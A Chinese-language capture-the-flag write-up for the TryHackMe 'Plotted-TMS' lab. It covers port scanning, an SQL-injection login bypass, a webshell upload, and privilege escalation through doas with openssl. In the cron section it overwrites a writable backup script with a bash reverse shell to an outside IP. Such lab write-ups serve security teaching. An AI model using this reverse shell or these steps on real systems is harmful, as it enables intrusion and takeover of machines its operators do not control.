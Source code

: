 ```yaml
---
sidebar_position: 60
tags: [Easy, Linux, SQLI, 文件上传, 定时任务, SUID]
title: "Plotted-TMS"
description: "Plotted-TMS"
sidebar_label: "Plotted-TMS"
slug: /tryhackme/60
---
```

# Plotted-TMS
## 端口扫描
```bash
root@ip-10-10-24-143:~# nmap -sTCV -p 22,80,445 --min-rate 1000 10.10.106.11

Starting Nmap 7.60 ( https://nmap.org ) at 2023-09-03 14:40 BST
Nmap scan report for ip-10-10-106-11.eu-west-1.compute.internal (10.10.106.11)
Host is up (0.00013s latency).

PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
445/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 02:2A:86:EA:56:C9 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 118.32 seconds
```
## 80
![20240702230128](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240702230128.png)

查看扫描出的文件, 每个都提供了一个 Base64 加密内容

## 139/445

![20240702230145](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240702230145.png)

查看这个页面, 我发现了一个 login 界面, 接着我进行查看发现它存在 SQL 注入

![20240702230246](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240702230246.png)

使用万能密码登陆即可, 登陆之后我发现在用户账户界面存在文件上传位置, 所以可以尝试在此上传一个 WebShell 上去

![20240702230300](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240702230300.png)

## 后渗透
### www-data
访问上传的 webShell  我们就可以得到一个 webShell

![20240702230319](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240702230319.png)

### www-data --> plot_admin
我发现 plot_admin 用户存在一个定时任务, 而定时任务执行的那个脚本文件夹可以被我们所控制, 所以我们可以将其进行覆盖以获得 plot_admin 的 Shell

```bash
(remote) www-data@plotted:/$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* * 	* * *	plot_admin /var/www/scripts/backup.sh
#
(remote) www-data@plotted:/$ ls -al /var/www/scripts/backup.sh
-rwxrwxr-- 1 plot_admin plot_admin 141 Oct 28  2021 /var/www/scripts/backup.sh
(remote) www-data@plotted:/var/www/scripts$ ls -al
total 12
drwxr-xr-x 2 www-data   www-data   4096 Oct 28  2021 .
drwxr-xr-x 4 root       root       4096 Oct 28  2021 ..
-rwxrwxr-- 1 plot_admin plot_admin  141 Oct 28  2021 backup.sh
(remote) www-data@plotted:/var/www/scripts$ rm -rf backup.sh 
(remote) www-data@plotted:/var/www/scripts$ cat << EOF > backup.sh
> #!/bin/bash
> /bin/bash -i >& /dev/tcp/10.10.155.187/4445 0>&1
> EOF
(remote) www-data@plotted:/var/www/scripts$ cat backup.sh 
#!/bin/bash
/bin/bash -i >& /dev/tcp/10.10.155.187/4445 0>&1
(remote) www-data@plotted:/var/www/scripts$ chmod 777 backup.sh 
(remote) www-data@plotted:/var/www/scripts$ ls -al
total 12
drwxr-xr-x 2 www-data www-data 4096 Sep  4 00:43 .
drwxr-xr-x 4 root     root     4096 Oct 28  2021 ..
-rwxrwxrwx 1 www-data www-data   61 Sep  4 00:43 backup.sh
```

![20240702230342](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240702230342.png)

### plot_admin —> root
在枚举 SUID 程序时 我发现一个特殊的应用程序

<div style={{textAlign:'center'}}>
  
![20240702230410](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240702230410.png)

</div>

这个程序可以实现类似于 sudo 的功能, 在询问 GPT 后我发现可以利用的方法
1. 查看 doas 配置文件, 通常是 `/etc/doas.conf` 位置, 这表明可以在 plot_admin 用户下, 使用 root 执行 openssl 程序
   ![20240702230541](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240702230541.png)
2. 接着我查找对于 openssl 的使用 [openssl](https://gtfobins.github.io/gtfobins/openssl/#file-read)
3. 执行程序进行读取
   ![20240702230516](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240702230516.png)